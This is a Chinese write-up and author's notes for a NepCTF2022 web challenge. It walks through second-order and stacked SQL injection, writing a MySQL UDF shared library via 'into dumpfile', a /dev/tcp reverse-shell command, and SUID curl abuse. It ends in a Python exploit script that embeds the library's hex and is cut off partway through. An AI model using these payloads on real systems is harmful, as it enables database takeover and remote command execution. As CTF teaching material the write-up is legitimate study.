NepCTF2022 Web题·博学多闻的花花 WP&出题笔记

<!-- more -->

我先摆个链接，诶 被坏女人催写wp，先挖个坑在这啦 https://err0r.top/article/eruditeFlower/


## 前言

这道题目的原型是我的动态Web课设，随随便便撸了个课设，然后NepCTF开始筹备了，在写数据库操作的时候发现像这样一个动态抽取题目答题的网站，如果安全没做好的话肯定一堆漏洞(~~事实上课设最后答辩我看了下全是漏洞，但毕竟只是一个开发的课设~~)。联想到国内近一年来的ctf题目，很少有考到二次注入的，因为大多数的情况下采用的是限制性原则，即过滤/匹配替换等限制字符串，并没有转义字符这样的操作，恰恰就是因为这样做如果没有限制好参数就会产生二次注入的漏洞，我将这点和课设中multi_query操作进行结合，再加上ctf中更加罕见的udf提权操作，出了一道题目，希望师傅们能理解其中的意义。

前排指路：

[exp](#exp)

如果不想看wp想看我吹水的可以看[Q&A](#Q&A)

包括一些避免搅shi，出题时遇到的问题和反作弊对抗的事情，凡事总有第一次，希望能给后面出题的师傅们一些帮助

## Write-Up

### 二次+堆叠注入获取admin

根据源码在`login.php`的28-30行，用户登录后session存储了`username`和`studentid`的源数据

```php
setcookie('username', md5($row['username']));
$_SESSION['username'] = ($row['username']);
$_SESSION['studentid'] = ($row['studentid']);
```

之后在`index.php`的183-184行可以看到在存储用户答案的时候，没有对传入的参数(`$_SESSION['username']`)进行过滤

```php
$query = "insert into score values (NULL, '".addslashes_deep($_SESSION['username'])."', $getscroe);
insert into userAnswer values (NULL, '".$_SESSION['username']."', '".$_POST['q1']."', '".$_POST['q2']."', '".$_POST['q3']."', '".$_POST['q4']."', '".$_POST['q5']."')";
```

这里由于一点点小问题导致没有对q1-5进行合法性验证，所以导致在这里即可直接使用堆叠注入进行下一步操作，这里的考点是二次注入，利用`username`进行堆叠注入，修改admin的`studentid`，从而登录获取admin。由于增加revenge会导致原有分数结构被破坏~~(咱就是个新生赛)~~，因此比赛过程中就没有对题目做修改啦。

**现题目已经修改完毕，增加了对q1-5的合法性验证，无法在q1-5处进行注入了，附件也将会同步更新。**

因为通篇来看，只有这处未对`username`转义，而且此处进行了`multi_query`，所以可以如果此处存在注入点的话就可以进行堆叠注入。

首先尝试闭合，可以看到如果我的username为

```mysql
a','1','2','3','4','1');update users set studentid='{passwd}' where username='admin';
```

那么执行的sql语句就变成了这样

```mysql
...;insert into userAnswer values (NULL, 'a','1','2','3','4','1');update users set studentid='admin_passwd' where username='admin';#', '1', '1', '1', '1', '1')";
```

执行后就更改了admin的`studentid`为`admin_passwd`，就可以登录到`score.php`了。

### udf提权

#### 前提条件

根据附件`init.sql`，ctf用户拥有`*.*`的`file`和`insert`权限



(这里score库的权限配给进行过修改，原因是有人搞事，这个会在后面的出题笔记中细说)

同时根据附件给的`my.cnf`，配置文件都是默认配置，且`secure-file-priv`直接给到了plugin目录下



且`init.sql`的`score.ctf`表也写明了`flag_in_/flag`，要么通过读取文件的方式将flag读入获取，要么udf提权，操作系统函数。

#### 写入.so文件

由于服务器是linux-x64，在github选取合适的.so文件或者自己编译，本地使用select获取其hex值。

`select hex(load_file('/usr/lib64/mysql/plugin/exp.so'))`得到值如下

```hex
0x7F454C460201...
```

太长了，exp里有写，这里就不再展示了

在`score.php`的54-55行，由于本页面对admin开放，所以没有进行可信验证，直接存在注入。

同样利用二次注入，先闭合后使用dump file写入.so文件

```mysql
aaa';select <0x7F...> into dumpfile '/usr/lib64/mysql/plugin/exp.so';#
```

#### 创建udf

```mysql
aaa';CREATE FUNCTION sys_eval RETURNS STRING SONAME 'exp.so';#
```

#### 执行系统命令

```mysql
aaa';select sys_eval('id');#
```

### 最终步骤

这里直接弹个shell回来，直接`cat /flag`，没有权限，寻找有suid位的程序curl，执行`curl file:///flag`获得flag




## 详细分析

### 分析网站流程

首先打开是主界面(index.php)，有注册(register.php)，登录(login.php)，查询(score.php)和排名(rank.php)四个界面。


注册和登录都非常的朴实无华，没啥好说的





#### register

按流程首先看看注册

```php
if (isset($_POST['username']) && isset($_POST['studentid'])) {

    if ($_POST['username']==='admin') {
        exit('你想干啥？');
    }

    if ($_POST['username']==='' || $_POST['studentid']==='' || $_POST['submit']!=='提交')
    {
        exit("搞事搞事搞事.jpg");
    }
  ......
}
```

如果post了`username`和`studentid`那么就进入了注册流程，判断`$username==='admin'`，这里有个小插曲，原先写的是`==`导致可以直接%00截断，这个问题在下面会说

然后就是注册流程了

```php
    if ($mysqli->connect_errno) {
        exit("something err0r!<br>姓名或学号重复");
    }
```

结合一下`init.sql`文件看一下

```sql
CREATE TABLE `users` (
  `id` int(11) unsigned NOT NULL AUTO_INCREMENT,
  `username` mediumtext,
  `studentid` varchar(255) DEFAULT NULL,
  PRIMARY KEY (`id`),
  UNIQUE KEY `studentid` (`studentid`)
) ENGINE=InnoDB AUTO_INCREMENT=11 DEFAULT CHARSET=utf8;
```

可以看到在.sql文件中`studentid`是唯一的，所以重复就会报错

接下来就是注册了，配合注释食用～

```php
// 在插入前先查一下users表是否有此$studentid
if($result = $mysqli->query("select * from users where studentid='$studentid'")) {
  // $result->num_rows如果有任何值，那就表示重复了
  if ($result->num_rows) {
    $result->close();
    echo "<script>alert(\"用户已存在\");</script>";
  } else {
    // 这里是选题操作，首先count一下题库数量，然后随机选5道题目出来
    $arrend = $mysqli->query("select count(*) from challengesAll")->fetch_row()[0];
    $arr = getRandom($arrend);
    // 两句insert堆叠，由于$username和$studentid都经过转义处理了，所以不会存在注入的情况发生，当然 真的吗？
    // 这一句是插入用户
    $query = "insert into users values (NULL, '$username', '$studentid');";
    // 这一句是插入用户和随机到的题目，每个用户题目是在注册的同时就选定好并插入到randChallenges表中的
    $query .= "insert into randChallenges values (NULL, '$username', '$arr[0]', '$arr[1]', '$arr[2]', '$arr[3]', '$arr[4]');";
    // 成功后跳转login界面
    if ($mysqli->multi_query($query)===TRUE) {
      $mysqli->close();
      header("Location: login.php");
    } else {
      exit("something error！".$mysqli->error);
    }
  }
}
```

#### login

还是一样，首先判断是否登录，登录过了就跳回主界面，post俩参数就进入登录流程，配合注释食用～

```php

// 经典登录语句，$username和$studentid都经过了addslashes_deep转义
if($result = $mysqli->query("select * from users where username='$username' and studentid='$studentid'")) {
  if ($result->num_rows === 1) {
    $row = $result->fetch_array();
    setcookie('username', md5($row['username']));
    $_SESSION['username'] = ($row['username']);
    $_SESSION['studentid'] = ($row['studentid']);
		
    // 如果登录了admin就重置admin密码，这里在下方还会再讲
    if ($row['username']=="admin"){
      $random = md5(time());
      $mysqli->query("update users set studentid='$random' where username='admin'");
    }
    header("Location: index.php");
  } else {
    exit("用户名或密码错误 QAQ");
  }
}
```

#### index

下面就是最大头的index部分了

```php
<?php if (isset($_SESSION['username'])): ?>
  // 如果登录就给出登出按钮
  <td class="mui--appbar-height"><a href="logout.php">登出</a></td>
  <?php
  // 如果是admin就给出单独查成绩的界面
  if ($_SESSION['username']==='admin'):{ ?>
    查询<td class="mui--appbar-height"><a href="score.php">成绩</a></td>或<td class="mui--appbar-height"><a href="rank.php">排名</a></td>
    <?php
    // 并且不再继续往下
    exit(1);
                                       }
endif;
// 下面是普通用户的流程
include("config.php");
$mysqli = new mysqli(MYSQL_HOST, MYSQL_USER, MYSQL_PASSWORD, MYSQL_DATABASE);
mysqli_query($mysqli,"set names utf8");
// 检查score表是否有分了，有分就表示做过了
if ($result = $mysqli->query("select * from score where username='".$_SESSION['username']."'")) {
  if ($result->num_rows >= 1) {?>
    </br>您已完成测试</br>查询<td class="mui--appbar-height"><a href="score.php">成绩</a></td>或<td class="mui--appbar-height"><a href="rank.php">排名</a></td>
    <?php
    exit(1);
                              }
}

......
  
<?php else: ?>
  // 没登录展示如下
  请先<td class="mui--appbar-height"><a href="login.php"> 登陆</a></td>
  或<td class="mui--appbar-height"><a href="register.php"> 注册</a></td><br><br>
  查询<td class="mui--appbar-height"><a href="score.php">成绩</a></td>或<td class="mui--appbar-height"><a href="rank.php">排名</a></td>
  <?php endif; ?>
```

接着就是没做过题的普通用户流程，一段联合查询语句查出该用户抽的题目并从题库challengesAll中抽出这些题目再展示

```php
$mysqli->query("SELECT
  type,Title,TitleImg,OptionA,OptionB,OptionC,OptionD
  FROM
  challengesAll,randChallenges 
  WHERE
  randChallenges.username = '".addslashes_deep($_SESSION['username'])."'
  AND (challengesAll.id = randChallenges.challengeId1 
       OR challengesAll.id = randChallenges.challengeId2 
       OR challengesAll.id = randChallenges.challengeId3 
       OR challengesAll.id = randChallenges.challengeId4 
       OR challengesAll.id = randChallenges.challengeId5)") // 很蹩脚的查询
```

接着解析，单选题和判断题有不同的展示方式，到目前为止都很正常。

下面就是判分了，原先这里没做判断，应该增加判断q1-5是否合法，防止直接在选项处就开始注入从而跳过考点了，这就是为什么有的师傅会疑问为什么有二次注入考点的问题。

然后就是出现问题的地方了，通过审计可以发现在$query的第二句`$_SESSION['username']`没有做转义，而在login处可以发现`$_SESSION['username']==($row['username'])`如此一来我们存入数据库的username被提取出来，然后未经过转义就再次插入到了sql语句中，从而造成了二次注入的漏洞。

```php
// 先查一下是否已经完成过测试，防止一个用户有多条结果
if($result = $mysqli->query("select * from score where username='".addslashes_deep($_SESSION['username'])."'")) {
  if ($result->num_rows) {
    $result->close();
    echo "<script>alert(\"用户已完成测试\");</script>";
  } else {
    // 可以看到在第二句中$_SESSION['username']未做转义
    // 这里q1-5后续增加了合法性判断
    $query = "insert into score values (NULL, '".addslashes_deep($_SESSION['username'])."', $getscroe);
            insert into userAnswer values (NULL, '".$_SESSION['username']."', '".$_POST['q1']."', '".$_POST['q2']."', '".$_POST['q3']."', '".$_POST['q4']."', '".$_POST['q5']."')";
    //            var_dump($query);
    //            exit(1);
    if ($mysqli->multi_query($query)===TRUE) {
      $mysqli->close();
      echo "<script>alert(\"已完成测试！\");</script>";
      echo "<script language='JavaScript'>location.replace('index.php')</script>";
    } else {
      exit("something err0r！");
    }
  }
}
```

#### score

获取了admin我们就可以查询对应用户的成绩了

```php
if (isset($_POST['studentid'])){
  // 对传入studentid转义，没啥问题
  $studentid = addslashes_deep($_POST['studentid']);

  //            var_dump($studentid);
  if ($mysqli->connect_errno) {
    exit("something err0r！");
  }
  // 首先去users表查studentid对应的username
  if ($result = $mysqli->query("select * from users where studentid='$studentid';")) {
    $row = $result->fetch_array();
    if ($row){
      $username = $row['username'];
      // 拿查到的username去查对应成绩
      $sql = "select * from score where username='$username';";
      ...
      ...
```

很明显在上面👆这段中也是非常经典的二次注入。由于score表中存的是`username`和成绩的映射，而这里是输入学号查询，查询语句没有做join，而是先查users表拿到`username`再查score，我们的`username`可是经过转义存入表中的，拿出来未做转义直接插入了另一句sql语句中，从而造成了二次注入。

还有一个小细节，在建表的时候可以看见`username`是mediumtext而不是varchar，也可以猜到这里有问题了

```sql
DROP TABLE IF EXISTS `users`;
CREATE TABLE `users` (
  `id` int(11) unsigned NOT NULL AUTO_INCREMENT,
  `username` mediumtext,
  `studentid` varchar(255) DEFAULT NULL,
  PRIMARY KEY (`id`),
  UNIQUE KEY `studentid` (`studentid`)
) ENGINE=InnoDB AUTO_INCREMENT=11 DEFAULT CHARSET=utf8;
```

####  剩下的网页 & 接下来的思路

##### config

存了数据库连接信息和俩函数，一个是转义的一个是检查q合法性的

```php
function addslashes_deep($value){
    if (empty($value)){
        return $value;
    }else {
        return is_array($value) ? array_map('addslashes_deep', $value): addslashes($value);
    }
}

function checkQ($q){
    return in_array($q, array("1","2","3","4"));
}
```

##### logout

退出登录

##### rank

查看排行，语句写死的，没有操作空间

```php
$result = $mysqli->query("select * from score order by score desc");
```

##### 接下来的思路

相信做到这一步的师傅们肯定数据库也看过了，当然毕竟是新生赛，网页全部源码数据库文件和配置文件全部都给大家了，考验的就是看大家的细心程度

init.sql文件可以看到在ctf表中有这样一条记录

```sql
BEGIN;
INSERT INTO `ctf` VALUES (1, 'flag', 'flag_in_/flag');
COMMIT;
```

flag在根目录？那不就是要load_file读文件吗。那再看一下权限

```sql
GRANT file,insert ON *.* TO 'ctf'@'%';
```

可以文件落地，也有insert权限

再看一下目录

```sql
secure-file-priv=/usr/lib64/mysql/plugin
```

虽然不为空，但看到plugin应该很敏感，在插件目录下，可以文件落地，要读文件，很明显那就是用udf或者mof了

这里提一句，如果没限制目录但flag去了权限，那有师傅就会想去在web目录下落地个webshell，但这里部署是站库分离的，后面也会讲这一点，mysql服务器在内网可出网，没有web服务，问题来了，如果不可出网该怎么利用呢？这里留一个思考的问题。

#### 落地.so文件

由于服务器是linux的，我们就要写.so文件在plugin目录下，如果是windows就要写.dll文件

sqlmap其实自带提权脚本，但没法直接利用，把它的.so文件导出后hex取其值接下来会用到

已经有admin了所以操作会简单很多，语句为

```sql
select * from score where username='$username';
```

那我们注册一个学号为1，用户名为`a';select 123#`的用户，然后去查对应的学号就行了

我们把.so文件写入到plugin目录下

```sql
# 写.so文件
a';select <0x7F...刚才获取的hex值> into dumpfile '/usr/lib64/mysql/plugin/exp.so';#
```

#### 创建udf & 命令执行

两句话完成，还是利用score页面的二次注入

```sql
# 创建udf，这里默认会从plugin目录下找.so文件，创建一个用户自定义函数sys_eval
';CREATE FUNCTION sys_eval RETURNS STRING SONAME 'exp.so';#
# 执行命令
';select sys_eval("whoami");#
```

#### 反弹shell

执行`echo '/bin/bash -i >& /dev/tcp/[ip]/[port] 0>&1'|sh`



#### 小提权

直接`cat /flag`没有权限，有个小提权在这里，不是很复杂，查找有suid的程序`find / -perm -u=s -type f 2>/dev/null`，可以看到curl有suid权限，且我们有curl的执行权限，因此执行`curl file:///flag`即可获得flag



当然，也可以在页面上一句句执行，只不过有些复杂，但总归不可能直接就知道curl有suid权限，不可能直接curl读flag的，毕竟还是有个小考点一个小流程在这的

#### exp

```python
"""
-*- coding: utf-8 -*-
@File: exp.py
@Author: Err0r
@Time: 3月 13, 2021
"""
import random
import string

import requests
import time

url = "http://127.0.0.1:20712"

CMD = "echo '/bin/bash -i >& /dev/tcp/[ip]/[port] 0>&1'|sh"

session = requests.session()
COOKIES = {

}
HEADERS = {
    "Origin": "",
    "User-Agent": "Mozilla/5.0 (iPhone; CPU iPhone OS 15_3 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko) Mobile/15E148",
    "Referer": "",
    'Content-Type': 'application/x-www-form-urlencoded',
}


def req(url, method='get', cookies={}, headers={}, timeout=5, allow_redirects=True, **kwargs):
    # print(url)
    data = kwargs.get("data")
    params = kwargs.get("params")
    cookies.update(COOKIES)
    headers.update(HEADERS)
    if method == 'get':
        resp = session.get(
            url=url,
            data=data,
            params=params,
            headers=headers,
            cookies=cookies,
            timeout=timeout,
            allow_redirects=allow_redirects
        )
    elif method == 'post':
        resp = session.post(
            url=url,
            data=data,
            params=params,
            headers=headers,
            cookies=cookies,
            timeout=timeout,
            allow_redirects=allow_redirects
        )
    else:
        session.close()  # close session
        raise Exception('Requests method error.')
    return resp.content.decode('utf8')


def getRadmonStr():
    return ''.join(random.sample(string.ascii_letters + string.digits, 8))


def reg(sql):
    tarurl = url + "/register.php"
    studentid = getRadmonStr()
    params = {
        "username": sql,
        "studentid": studentid,
        "submit": "提交"
    }
    res = req(tarurl, data=params, method="post")
    return studentid


def login(username, studentid):
    tarurl = url + "/login.php"
    params = {
        "username": username,
        "studentid": studentid,
        "submit": "提交"
    }
    res = req(tarurl, data=params, method="post")
    # print(res)
    return res


def logout():
    tarurl = url + "/logout.php"
    res = req(tarurl)


def postAns():
    tarurl = url + "/index.php"
    params = {
        "q1": "1",
        "q2": "1",
        "q3": "4",
        # "q6": "5"
        "q4": "1",
        "q5": "4",
    }
    res = req(tarurl, data=params, method="post")
    # print(res)


def posScore(studentid):
    tarurl = url + "/score.php"
    params = {
        "studentid": studentid,
    }
    res = req(tarurl, data=params, method="post")
    # print(res)


if __name__ == '__main__':
    passwd = getRadmonStr()
    poc = [
        # 这里可以利用特性直接select获取到admin密码，或者像这样直接修改admin密码
        f"{getRadmonStr()}','{getRadmonStr()}','{getRadmonStr()}','{getRadmonStr()}','{getRadmonStr()}','{getRadmonStr()}');update users set studentid='{passwd}' where username='admin';\x23",
        f"{getRadmonStr()}';select 0x7F454C4602010100000000000000000003003E0001000000D00C0000000000004000000000000000E8180000000000000000000040003800050040001A00190001000000050000000000000000000000000000000000000000000000000000001415000000000000141500000000000000002000000000000100000006000000181500000000000018152000000000001815200000000000700200000000000080020000000000000000200000000000020000000600000040150000000000004015200000000000401520000000000090010000000000009001000000000000080000000000000050E57464040000006412000000000000641200000000000064120000000000009C000000000000009C00000000000000040000000000000051E5746406000000000000000000000000000000000000000000000000000000000000000000000000000000000000000800000000000000250000002B0000001500000005000000280000001E000000000000000000000006000000000000000C00000000000000070000002A00000009000000210000000000000000000000270000000B0000002200000018000000240000000E00000000000000040000001D0000001600000000000000130000000000000000000000120000002300000010000000250000001A0000000F000000000000000000000000000000000000001B00000000000000030000000000000000000000000000000000000000000000000000002900000014000000000000001900000020000000000000000A00000011000000000000000000000000000000000000000D0000002600000017000000000000000800000000000000000000000000000000000000000000001F0000001C0000000000000000000000000000000000000000000000020000000000000011000000140000000200000007000000800803499119C4C93DA4400398046883140000001600000017000000190000001B0000001D0000002000000022000000000000002300000000000000240000002500000027000000290000002A00000000000000CE2CC0BA673C7690EBD3EF0E78722788B98DF10ED871581CC1E2F7DEA868BE12BBE3927C7E8B92CD1E7066A9C3F9BFBA745BB073371974EC4345D5ECC5A62C1CC3138AFF36AC68AE3B9FD4A0AC73D1C525681B320B5911FEAB5FBE120000000000000000000000000000000000000000000000000000000003000900A00B0000000000000000000000000000010000002000000000000000000000000000000000000000250000002000000000000000000000000000000000000000E0000000120000000000000000000000DE01000000000000790100001200000000000000000000007700000000000000BA0000001200000000000000000000003504000000000000F5000000120000000000000000000000C2010000000000009E010000120000000000000000000000D900000000000000FB000000120000000000000000000000050000000000000016000000220000000000000000000000FE00000000000000CF000000120000000000000000000000AD00000000000000880100001200000000000000000000008000000000000000AB010000120000000000000000000000250100000000000010010000120000000000000000000000DC00000000000000C7000000120000000000000000000000C200000000000000B5000000120000000000000000000000CC02000000000000ED000000120000000000000000000000E802000000000000E70000001200000000000000000000009B00000000000000C200000012000000000000000000000028000000000000008001000012000B007A100000000000006E000000000000007500000012000B00A70D00000000000001000000000000001000000012000C00781100000000000000000000000000003F01000012000B001A100000000000002D000000000000001F01000012000900A00B0000000000000000000000000000C30100001000F1FF881720000000000000000000000000009600000012000B00AB0D00000000000001000000000000007001000012000B0066100000000000001400000000000000CF0100001000F1FF981720000000000000000000000000005600000012000B00A50D00000000000001000000000000000201000012000B002E0F0000000000002900000000000000A301000012000B00F71000000000000041000000000000003900000012000B00A40D00000000000001000000000000003201000012000B00EA0F0000000000003000000000000000BC0100001000F1FF881720000000000000000000000000006500000012000B00A60D00000000000001000000000000002501000012000B00800F0000000000006A000000000000008500000012000B00A80D00000000000003000000000000001701000012000B00570F00000000000029000000000000005501000012000B0047100000000000001F00000000000000A900000012000B00AC0D0000000000009A000000000000008F01000012000B00E8100000000000000F00000000000000D700000012000B00460E000000000000E800000000000000005F5F676D6F6E5F73746172745F5F005F66696E69005F5F6378615F66696E616C697A65005F4A765F5265676973746572436C6173736573006C69625F6D7973716C7564665F7379735F696E666F5F6465696E6974007379735F6765745F6465696E6974007379735F657865635F6465696E6974007379735F6576616C5F6465696E6974007379735F62696E6576616C5F696E6974007379735F62696E6576616C5F6465696E6974007379735F62696E6576616C00666F726B00737973636F6E66006D6D6170007374726E6370790077616974706964007379735F6576616C006D616C6C6F6300706F70656E007265616C6C6F630066676574730070636C6F7365007379735F6576616C5F696E697400737472637079007379735F657865635F696E6974007379735F7365745F696E6974007379735F6765745F696E6974006C69625F6D7973716C7564665F7379735F696E666F006C69625F6D7973716C7564665F7379735F696E666F5F696E6974007379735F657865630073797374656D007379735F73657400736574656E76007379735F7365745F6465696E69740066726565007379735F67657400676574656E76006C6962632E736F2E36005F6564617461005F5F6273735F7374617274005F656E6400474C4942435F322E322E35000000000000000000020002000200020002000200020002000200020002000200020002000200020001000100010001000100010001000100010001000100010001000100010001000100010001000100010001000100000001000100B20100001000000000000000751A690900000200D401000000000000801720000000000008000000000000008017200000000000D01620000000000006000000020000000000000000000000D81620000000000006000000030000000000000000000000E016200000000000060000000A00000000000000000000000017200000000000070000000400000000000000000000000817200000000000070000000500000000000000000000001017200000000000070000000600000000000000000000001817200000000000070000000700000000000000000000002017200000000000070000000800000000000000000000002817200000000000070000000900000000000000000000003017200000000000070000000A00000000000000000000003817200000000000070000000B00000000000000000000004017200000000000070000000C00000000000000000000004817200000000000070000000D00000000000000000000005017200000000000070000000E00000000000000000000005817200000000000070000000F00000000000000000000006017200000000000070000001000000000000000000000006817200000000000070000001100000000000000000000007017200000000000070000001200000000000000000000007817200000000000070000001300000000000000000000004883EC08E827010000E8C2010000E88D0500004883C408C3FF35320B2000FF25340B20000F1F4000FF25320B20006800000000E9E0FFFFFFFF252A0B20006801000000E9D0FFFFFFFF25220B20006802000000E9C0FFFFFFFF251A0B20006803000000E9B0FFFFFFFF25120B20006804000000E9A0FFFFFFFF250A0B20006805000000E990FFFFFFFF25020B20006806000000E980FFFFFFFF25FA0A20006807000000E970FFFFFFFF25F20A20006808000000E960FFFFFFFF25EA0A20006809000000E950FFFFFFFF25E20A2000680A000000E940FFFFFFFF25DA0A2000680B000000E930FFFFFFFF25D20A2000680C000000E920FFFFFFFF25CA0A2000680D000000E910FFFFFFFF25C20A2000680E000000E900FFFFFFFF25BA0A2000680F000000E9F0FEFFFF00000000000000004883EC08488B05F50920004885C07402FFD04883C408C390909090909090909055803D900A2000004889E5415453756248833DD809200000740C488B3D6F0A2000E812FFFFFF488D05130820004C8D2504082000488B15650A20004C29E048C1F803488D58FF4839DA73200F1F440000488D4201488905450A200041FF14C4488B153A0A20004839DA72E5C605260A2000015B415CC9C3660F1F8400000000005548833DBF072000004889E57422488B05530920004885C07416488D3DA70720004989C3C941FFE30F1F840000000000C9C39090C3C3C3C331C0C3C341544883C9FF4989F455534883EC10488B4610488B3831C0F2AE48F7D1488D69FFE8B6FEFFFF